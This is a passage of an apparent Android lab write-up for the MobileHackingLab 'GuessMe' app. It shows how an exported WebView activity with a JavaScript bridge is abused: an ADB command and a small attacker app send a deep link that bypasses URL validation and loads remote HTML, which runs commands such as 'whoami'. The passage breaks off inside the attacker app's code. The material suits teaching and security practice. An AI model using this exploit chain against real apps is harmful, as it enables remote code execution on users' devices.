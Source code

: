 This is possible also by
```java
webView3.addJavascriptInterface(new MyJavaScriptInterface(), "AndroidBridge");
```
This line of code **connects a Java class to the JavaScript environment of a WebView** in Android, allowing **JavaScript code executed inside the WebView** to access specific methods of the `MyJavaScriptInterface` class.

So, put your `index.html` inside of your webserver like `python`
```bash
python3 -m http.server 8081
```

Then, we can use this **ADB** command for send the **Intent**.
```bash
adb shell am start -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://192.168.18.44:8081/index.html?mobilehackinglab.com" com.mobilehackinglab.guessme/.WebviewActivity
```

Notice that we can **bypass** the validation passing `mobilehackinglab.com` as "*parameter*".

![[guessMe2.png]]

Also, we can change the command `id` to `whoami`. Then, check if the **sandboxed** user is `u0_a415`

![[guessMe3.png]]


*But, an RCE with ADB is not the best idea and leaves us wanting more. So we will make a “malicious” app that sends the intent when we press a button*
So let's take advantage of the fact that the webview activity is exported and we can call it from another application.

Obviously, in my case, Ill make a **LAN** server where the "malicious" app call to my python webserver. To `http://192.168.18.44:8081/index.html`

Here's the code of our app
**`MainActivity.java`**
```java
package com.lautaro.exploitme;  
  
import android.content.Intent;  
import android.net.Uri;  
import android.os.Bundle;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        // Create Intent  
        Intent intent = new Intent();  
        intent.setAction(Intent.ACTION_VIEW);  
        intent.setData(Uri.parse("mhl://mobilehackinglab?url=http://192.168.18.44:8081/index.html?mobilehackinglab.com"));  
        intent.setClassName(  
                "com.mobilehackinglab.guessme",  
                "com.mobilehackinglab.guessme.WebviewActivity"  
        );  
  
        // Launch intent  
        startActivity(intent);  
  
        // Close app  
        finish();  
```